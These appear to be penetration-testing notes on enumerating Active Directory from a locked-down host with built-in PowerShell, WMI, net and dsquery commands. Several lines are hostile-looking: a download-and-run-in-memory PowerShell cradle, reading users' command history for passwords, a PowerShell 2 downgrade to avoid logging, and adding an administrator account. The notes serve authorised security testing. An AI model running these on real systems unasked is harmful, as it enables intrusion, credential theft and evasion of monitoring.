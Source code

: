## Living Off the Land

Assume our client has asked us to test their AD environment from a managed host with no internet access, and all efforts to load tools onto it have failed.

### Harnessing PowerShell

|Cmd-Let|Description|
|------|-----------|
|Get-Module|Lists available modules loaded for use.|
|Get-ExecutionPolicy -List|Will print the execution policy settings for each scope on a host.|
|Set-ExecutionPolicy Bypass -Scope Process|This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.|
|Get-Content|C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt	With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.|
|Get-ChildItem Env: \| ft Key,Value|Return environment values such as key paths, users, computer information, etc.|
|powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"|This is a quick and easy way to download a file from the web using PowerShell and call it from memory.|

Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer.


```powershell
## Downgrading PowerShell
powershell.exe -version 2

## Checking firewall
netsh advfirewall show allprofiles

## Checking Windows Defender
Get-MpComputerStatus

## Check if you are the only one logged in
qwinsta

## Listing various network information
arp -a
route print
```

### Windows Management Instrumentation (WMI)

**Quick WMI checks**
|Command|Description|
|-------|-----------|
|wmic qfe get Caption,Description,HotFixID,InstalledOn|Prints the patch level and description of the Hotfixes applied|
|wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List|Displays basic host information to include any attributes within the list|
|wmic process list /format:list|A listing of all processes on host|
|wmic ntdomain list /format:list|Displays information about the Domain and Domain Controllers|
|wmic useraccount list /format:list|Displays information about all local accounts and any domain accounts that have logged into the device|
|wmic group list /format:list|Information about all local groups|
|wmic sysaccount list /format:list|Dumps information about any system accounts that are being used as service accounts.|

Cheatsheet - [https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4]

### Net Commands

**Table of Useful Net Commands**

|Command|Description|
|-------|-----------|
|net accounts|Information about password requirements|
|net accounts /domain|Password and lockout policy|
|net group /domain|Information about domain groups|
|net group "Domain Admins" /domain|List users with domain admin privileges|
|net group "domain computers" /domain|List of PCs connected to the domain|
|net group "Domain Controllers" /domain|List PC accounts of domains controllers|
|net group <domain_group_name> /domain|User that belongs to the group|
|net groups /domain|List of domain groups|
|net localgroup|All available groups|
|net localgroup administrators /domain|List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)|
|net localgroup Administrators|Information about a group (admins)|
|net localgroup administrators [username] /add|Add user to administrators|
|net share|Check current shares|
|net user <ACCOUNT_NAME> /domain|Get information about a user within the domain|
|net user /domain|List all users of the domain|
|net user %username%|Information about the current user|
|net use x: \computer\share|Mount the share locally|
|net view|Get a list of computers|
|net view /all /domain[:domainname]|Shares on the domains|
|net view \computer /ALL|List shares of a computer|
|net view /domain|List of PCs of the domain|

### Dsquery

Dsquery is a helpful command-line tool that can be utilized to find Active Directory objects. The queries we run with this tool can be easily replicated with tools like BloodHound and PowerView, but we may not always have those tools at our disposal, as discussed at the beginning of the section.

```powershell
## User search
dsquery user

## Computer search
dsquery computer

## Wildcard search
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"

## Specific search
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

## Domain controller search
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```